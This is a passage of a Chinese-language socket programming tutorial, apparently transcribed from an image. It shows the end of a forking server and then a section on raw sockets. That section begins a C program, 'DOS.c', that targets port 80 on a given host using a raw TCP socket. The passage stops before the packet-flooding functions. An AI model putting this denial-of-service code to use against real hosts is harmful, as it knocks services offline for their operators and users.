 ```c:n 
}
else if(n<0)
printf("Fork Error：%s\n\a",strerror(errno));
close(accept_fd);
}
}
```

# 原始套接字
前面接触到SOCK_STREAM和SOCK_DRAGM两种套接字。原始套接字SOCK_RAW可以实现TCP和UDP套接字不能实现的功能，且只能由有root权限的用户创建。
## 原始套接字的创建
实现DOS的小程序：
```c:n 
/*******************DOS.c************/
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <netinet/tcp.h>
#include<stdlib.h>
#include<errno.h>
#include<unisted.h>
#include<stdio.h>
#include<netdb.h>
#define DESTPORT 80	/*要攻击的端口*/
#define LOCALPORT 8888

void send_tcp(int sockfd,struct sockaddr_in *addr);
unsigned short check_sum(unsigned short *addr,int len);

int main(int argc,char** argv)
{
	int sockfd;
	struct sockaddr_in addr;
	struct hostent *host;
	int on=1;
	if(argc!=2)
	{
		fprintf(stderr,"Usage: %s hostname\n\a",argv[0]);
		exit(1);
	}
	bzero(&addr,sizeof(struct sockaddr_in));
	addr.sin_family = AF_INET;
	addr.sin_port = htons(DESTPORT);
	if(inet_aton(argv[1],&addr.sin_addr)==0)
	{
		host = gethostbyname(argv[1]);
		if(host==NULL)
		{
			fprintf(stderr,"HostName Error: %s\n\a",hstrerror(h_errno));
			exit(1);
		}
		addr.sin_addr=*(struct in_addr*)(host->h_addr_list[0]);
	}
	//使用IPPROTO_TCP创建一个TCP的原始套接字
	sockfd = socket(AF_INET,SOCK_RAW,IPPROTO_TCP);
	if(sockfd<0)
	{
		fprintf(stderr,"Socket Error: %s\n\a",strerror(errno));
		exit(1);
	}
	
```